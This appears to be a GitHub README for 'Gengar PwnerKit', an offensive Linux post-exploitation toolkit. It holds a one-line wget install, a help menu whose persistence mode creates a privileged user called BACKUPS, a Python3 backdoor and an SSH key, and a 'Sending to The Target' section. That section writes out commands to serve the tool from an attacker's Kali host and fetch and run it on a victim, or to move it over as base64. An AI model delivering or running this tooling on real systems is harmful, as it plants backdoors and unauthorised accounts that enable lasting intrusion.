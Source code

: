 # Gengar PwnerKit

<div>
    <img src="https://img.shields.io/badge/-Linux-grey?logo=Linux&logoColor=white" width="70px">
    <img src="https://img.shields.io/badge/-Bash-green?logo=GNU-Bash&logoColor=white" width="70px">
    <img src="https://img.shields.io/badge/-Python3-3776AB?logo=Python&logoColor=white" width="90px">
</div>

## Persistence [TA0003](https://attack.mitre.org/tactics/TA0003/) | Privilege Escalation [TA0004](https://attack.mitre.org/tactics/TA0004/) | Discovery [TA0007](https://attack.mitre.org/tactics/TA0007/)
 
                    ![image](https://github.com/h0ru/gpk/blob/main/gengar.gif)

---
 
## About Gengar PwnerKit
### [+] Educational purposes
### [+] Rewritten and more objective code
### [+] New Features
### [+] Better usability
---

## How to Install?
```
wget -q https://raw.githubusercontent.com/h0ru/gpk/main/source/gpk -O gpk ; chmod +x gpk
```
---
## Help Menu
```
 [*] HELP MENU

     [+] -h --help  -   HELP MENU (Show these help)
     [+] -m         -   MACHINE INFORMATIONS (Show Hardware/System Infos)
     [+] -ds        -   DEEP SEARCH (Show Tools, Crontab Files, SUID Binaries, Writable Folders)
     [+] -n         -   NETWORK (Show Network Information and use Ping Sweep and Port Scan modes)
     [+] -c2        -   CHACAL C2 (Manage SSH Connections Through a Dashboard)
     [+] -p         -   PERSISTENCE (Create a Privileged User Called BACKUPS, Create a Backdoor in Python3 and an SSH KEY)
```
---

## Check out some images
### [IMAGES](https://github.com/h0ru/gpk/blob/main/IMAGES.md)
---

## Sending to The Target
### Local Network
```
(KALI)
python3 -m http.server 80

(TARGET)
wget ip/gpk -O gpk ; chmod +x gpk
```
### Via BASE64
```
(KALI)
cat gpk | base64 -w0

(TARGET)
nano gpk.b64 (paste the base64 gpk code)

base64 -d gpk.b64 > gpk ; chmod +x gpk
```
---
